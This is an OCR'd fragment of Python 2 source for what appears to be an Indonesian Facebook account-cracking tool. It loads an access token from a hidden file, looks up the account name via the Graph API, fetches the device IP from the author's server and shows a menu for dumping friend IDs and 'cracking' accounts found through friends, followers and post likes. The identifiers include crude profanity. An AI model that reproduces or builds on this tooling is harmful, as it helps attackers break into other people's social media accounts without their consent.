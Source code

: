         raw_input(' %s*%s tekan enter '%(O,N));wuhan(kontol)

        os.system('xdg-open https://www.facebook.com/profile.php?id=100031591461485')

        moch_yayan()

    except KeyError:

        print '\n\n %s[%s!%s] token invalid'%(N,M,N);time.sleep(2);yayanxd()

### ORANG GANTENG ###

def moch_yayan():

    os.system('clear')

    try:

    	kontol = open('.memek.txt', 'r').read()

    except IOError:

        print '\n %s[%s×%s] token invalid'%(N,M,N);time.sleep(2);os.system('rm -rf .memek.txt');yayanxd()

    try:

        nama = requests.get('https://graph.facebook.com/me?access_token=%s'%(kontol)).json()['name']

    except KeyError:

        print '\n %s[%s×%s] token invalid'%(N,M,N);time.sleep(2);os.system('rm -rf .memek.txt');yayanxd()

    except requests.exceptions.ConnectionError:

        exit('\n\n %s[%s!%s] tidak ada koneksi\n'%(N,M,N))

    os.system('clear')

    print logo

    IP = requests.get('https://www.yayanxd.my.id/server/ip/').text

    print '___________________________________________________________\n';time.sleep(0.03)

    print ' (\033[0;96m•\033[0m) ACTIVE USER : %s'%(nama);time.sleep(0.03)

    print ' (\033[0;96m•\033[0m) IP DEVICE   : %s'%(IP)

    print '___________________________________________________________\n';time.sleep(0.03)

    print ' [%s1%s]. Dump id dari teman'%(O,N);time.sleep(0.03)

    print ' [%s2%s]. Crack id dari teman publik'%(O,N);time.sleep(0.03)

    print ' [%s3%s]. Crack id dari total followers'%(O,N);time.sleep(0.03)

    print ' [%s4%s]. Crack id dari like postingan'%(O,N);time.sleep(0.03)

    print ' [%s5%s]. Mulai crack'%(O,N);time.sleep(0.03)

    print ' [%s6%s]. Check ingformasi akun fb'%(O,N);time.sleep(0.03)

    print ' [%s7%s]. Lihat hasil crack'%(O,N);time.sleep(0.03)

    print ' [%s8%s]. Settings user agent'%(O,N);time.sleep(0.03)
